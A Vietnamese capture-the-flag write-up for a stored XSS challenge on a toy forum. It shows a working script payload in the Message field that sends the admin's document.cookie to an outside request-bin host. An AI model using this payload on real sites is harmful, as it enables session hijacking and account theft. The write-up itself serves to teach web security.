

WRITE UP
Challenge: XSS – Stored 1
Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

Kiểm tra source thì thấy đây là một form với phương thức “POST”. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input ‘Message’:

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với https://requestbin.in:

Như vậy, ta có một requestbin tại https://eojx5xx99skfihj.m.pipedream.net:
Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:
Payload: <script>document.write("<img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'></img>");</script>


Kiểm tra request bin, ta nhận được giá trị ADMIN_COOKIE.

- Flag: ************************************